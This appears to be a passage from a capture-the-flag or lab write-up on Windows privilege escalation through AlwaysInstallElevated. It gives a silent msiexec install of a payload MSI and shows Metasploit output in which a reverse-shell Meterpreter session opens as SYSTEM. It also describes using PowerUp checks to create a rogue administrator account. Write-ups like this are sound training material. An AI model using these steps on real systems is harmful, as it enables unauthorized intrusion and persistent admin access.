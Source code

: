 On the victim machine, you run the file with the following command (I didn't, I just opened a cmd window and ran it without options but I did get a couple errors back but it still worked).

Put the file in the C:\Temp folder and run the following:

`msiexec /quiet /qn /i C:\Temp\setup.msi`

My guess is the /quiet and other options keep the errors that I saw from popping up.  Still, the result was the same.

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.6.x.x:4444 
[*] Sending stage (176198 bytes) to 10.10.85.199
[*] Meterpreter session 3 opened (10.6.x.x:4444 -> 10.10.85.199:49355) at 2024-10-22 00:59:38 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

There is also, after we did the `Invoke-AllChecks` command from the PowerUp tools, we got to see the following.

![pic7](Images/pic7.png)

With this, we can run the following.

![pic8](Images/pic8.png)

Then we go to that folder and see the new UserAdd program.

![pic9](Images/pic9.png)

We can then run that program and because it's always running msi files as Admin, we can create ourselves a new administrator.
